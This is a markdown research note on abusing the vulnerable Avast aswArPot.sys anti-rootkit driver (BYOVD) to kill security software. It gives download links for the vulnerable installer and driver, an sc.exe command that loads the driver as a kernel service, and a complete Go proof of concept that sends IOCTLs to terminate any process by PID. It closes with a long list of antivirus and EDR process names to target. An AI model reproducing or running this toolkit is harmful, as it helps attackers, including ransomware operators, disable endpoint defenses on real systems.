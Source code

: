 # Research - BYOVD Avast! aswArPot  

https://www.bleepingcomputer.com/news/security/hackers-abuse-avast-anti-rootkit-driver-to-disable-defenses/  
https://www.trendmicro.com/en_us/research/22/e/avoslocker-ransomware-variant-abuses-driver-file-to-disable-anti-Virus-scans-log4shell.html  
https://cybersecuritynews.com/10-year-old-flaws-with-avast-and-avg/  
https://www.loldrivers.io/drivers/57fc510a-e649-4599-b83e-8f3605e3d1d9/

Related CVEs  
CVE-2022-26522  
CVE-2022-26523  
CVE-2021-40539  

Avast download 20.8.2432  
https://archive.org/details/avast_free_antivirus_setup_offline_202010  

Original download  
http://files.avast.com/iavs9x/avast_free_antivirus_setup_offline.exe  

Path after install of 20.8.2432  
```  
C:\Program Files\Avast Software\Avast\setup\Inf\x64\aswArPot.sys
```  

aswArPot.sys  
https://file.io/FJbxjNwn10Jk  

Create service  
```  
sc.exe create aswSP_ArPot2 binPath= C:\<Path to driver>\aswArPot.sys type= kernel
```  

POC - https://github.com/timwhitez/killProcessPOC/blob/main/aswarpot.go  
```  
package main

import (
	"fmt"
	"golang.org/x/sys/windows"
	"os"
	"strconv"
	"unsafe"
)

func main() {
	if len(os.Args) != 2 {
		fmt.Println("./device.exe pid")
		return
	}

	if os.Args[1] == "-h" {
		fmt.Println("./device.exe pid")
		return
	}

	var volumename = fmt.Sprintf("\\\\.\\aswSP_ArPot2")
	hVolume, _ := windows.CreateFile(windows.StringToUTF16Ptr(volumename), 0xc0000000, 0, nil, windows.OPEN_EXISTING, 0x80, 0)

	//var local_10 []byte
	var local_1c uint32
	windows.DeviceIoControl(hVolume, 0x7299c004, nil, 4, nil, 0, &local_1c, nil)

	volumename = fmt.Sprintf("\\\\.\\aswSP_Avar")
	local_c, _ := windows.CreateFile(windows.StringToUTF16Ptr(volumename), 0xc0000000, 0, nil, windows.OPEN_EXISTING, 0x80, 0)

	pid, _ := strconv.Atoi(os.Args[1])
	processID := uint32(pid)
	var local_2c uint32
	windows.DeviceIoControl(local_c, 0x9988c094, (*byte)(unsafe.Pointer(&processID)), 4, nil, 0, &local_2c, nil)

	windows.CloseHandle(hVolume)
	windows.CloseHandle(local_c)

}
```  

## Security Process Names  
```  
ERAAgent.exe
efwd.exe
SophosSafestore64.exe
PEFService.exe
mfefw.exe
mfemms.exe
mfewc.exe
McDiReg.exe
ProtectedModuleHost.exe
msmpeng.exe
ssdvagent.exe
avp.exe
swc_service.exe
bccavsvc.exe
psuaservice.exe
TmCCSF.exe
coreserviceshell.exe
repux.exe
vapm.exe
cylancesvc.exe
avpsus.exe
sbamtray.exe
sophoslivequeryservice.exe
epwd.exe
sophosmtrextension.exe
sophoscleanup.exe
iptray.exe
sentinelservicehost.exe
endpointbasecamp.exe
macompatsvc.exe
sepWscSvc64.exe
epab_svc.exe
mcsagent.exe
sophosfilescanner.exe
aswtoolssvc.exe
mfemactl.exe
avpsus.exe
avpui.exe
mcupdatemgr.exe
McAWFwk.exe
mfewch.exe
mfevtps.exe
McCSPServiceHost.exe
McPvTray.exe
MMSSHOST.exe
sophosui.exe
avastui.exe
paui.exe
bcc.exe
psuamain.exe
tesvc.exe
coreframeworkhost.exe
RepUtils.exe
updaterui.exe
cptrayui.exe
savservice.exe
SBAMSvc.exe
sophossafestore.exe
epam_svc.exe
sdcservice.exe
hostedagent.exe
idafserverhostservice.exe
sentinelhelperservice.exe
cetasvc.exe
macmnsvc.exe
sepagent.exe
responseservice.exe
mbcloudea.exe
SophosCleanM64.exe
easervicemonitor.exe
mfeann.exe
SophosNtpService.exe
ekrn.exe
MsMpEng.exe
QcShm.exe
mfeatp.exe
mfehcs.exe
mcshield.exe
Launch.exe
MclnstruTrack.exe
MfeAVSvc.exe
avastsvc.exe
ntrtscan.exe
svcgenerichost.exe
psanhost.exe
swi_service.exe
clientmanager.exe
repmgr.exe
tmlisten.exe
cptraylogic.exe
savapi.exe
vstskmgr.exe
wrsa.exe
efrservice.exe
scanhost.exe
sophosfimservice.exe
hostedagent.exe
SentinelAgentWorker.exe
cloudendpointservice.exe
logwriter.exe
SentinelUl.exe
dsa-connect.exe
mbamservice.exe
smcgui.exe
endpoint agent tray.exe
mctray.exe
SophosHealth.exe
eguiProxy.exe
agentsvc.exe
ModuleCoreService.exe
mfeesp.exe
mfeensppl
mfetp.exe
delegate.exe
McUICnt.exe
alsvc.exe
notifier.exe
sspservice.exe
pccntmon.exe
swi_fc.exe
ccsvchst.exe
remediationservice.exe
tmcpmadapter.exe
cpda.exe
savadminservice.exe
VipreNis.exe
ds_monitor.exe
dsa.exe
sbpimsvc.exe
sophososquery.exe
hmpalert.exe
sentinelagent.exe
sophos ui.exe
klnagent.exe
sentinelstaticenginescanner.exe
wscommunicator.exe
masvc.exe
sfc.exe
fsagentservice.exe
mcsclient.exe
sophosfs.exe
avwrapper.exe
```  

